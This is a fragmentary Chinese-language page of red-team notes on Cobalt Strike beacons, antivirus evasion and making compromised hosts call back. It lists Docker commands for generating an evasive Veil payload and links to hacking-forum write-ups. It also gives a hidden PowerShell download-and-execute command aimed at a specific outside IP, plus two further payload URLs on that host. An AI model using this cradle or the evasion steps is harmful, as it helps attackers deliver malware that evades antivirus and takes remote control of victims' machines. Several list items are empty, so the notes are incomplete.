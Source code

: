 - beacon

  beacon是CS自带的命令，下面列举了这些常见的使用方法。

  - shell 可以执行cmd命令
  - 

## 0x02 免杀基础

生成一个免杀的payload在后渗透测试过程中尤为重要。由于免杀框架层出不穷现在的免杀也相比过去容易了很多。

- Veil
  - CS Payload Generator中生成Veil的Payload.txt
  - Docker 运行Veil
  - docker pull mattiasohlsson/veil
    - docker run -it -v /root/Desktop/tools/veil:/var/lib/veil/output:Z mattiasohlsson/veil
    - use 1 
    - use 17
    - generate
    - 3
    - 复制CS VeilPayload.txt
    - 参考 https://xz.aliyun.com/t/4191
- shellcode
  - 
- Powershell
- 参考链接
  - https://www.t00ls.net/viewthread.php?tid=54993
  - https://www.t00ls.net/viewthread.php?tid=55754
  - https://www.t00ls.net/viewthread.php?tid=51321
  - https://github.com/darkr4y/geacon
  - https://www.t00ls.net/thread-55958-1-1.html
  - https://www.freebuf.com/articles/system/227463.html
  - [https://wtfsec.org/posts/%E5%85%8D%E6%9D%80shellcode%E5%B9%B6%E7%BB%95%E8%BF%87%E6%9D%80%E6%AF%92%E6%B7%BB%E5%8A%A0%E8%87%AA%E5%90%AF%E5%8A%A8/](https://wtfsec.org/posts/免杀shellcode并绕过杀毒添加自启动/)
  - [https://wtfsec.org/posts/%e5%85%8d%e6%9d%80-msf-windows-payload-%e7%9a%84%e6%96%b9%e6%b3%95%e4%b8%8e%e5%ae%9e%e8%b7%b5/](https://wtfsec.org/posts/免杀-msf-windows-payload-的方法与实践/)
  - [https://3gstudent.github.io/3gstudent.github.io/%E9%80%9A%E8%BF%87.NET%E5%AE%9E%E7%8E%B0%E5%86%85%E5%AD%98%E5%8A%A0%E8%BD%BDPE%E6%96%87%E4%BB%B6/](https://3gstudent.github.io/3gstudent.github.io/通过.NET实现内存加载PE文件/)
  - 

## 0x03 上线思考

如何上线？上线的分类有哪些？执行一条命令？运行一个可安装程序？

- Linux上线
  - Linux如何上线？
  - http://blog.leanote.com/post/snowming/c34f9defe00c

- 上线通知
  - https://www.t00ls.net/viewthread.php?tid=51487

- 打开文件
  - 可执行文件
  - 文件捆绑
- 执行命令
  - powershell
    - powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://111.231.228.112:91/a'))"
    - http://111.231.228.112:92/SiteLoader
    - http://111.231.228.112:93/mPlayer
    - 参考：https://www.t00ls.net/viewthread.php?tid=52638
- cmd
    - mshta
  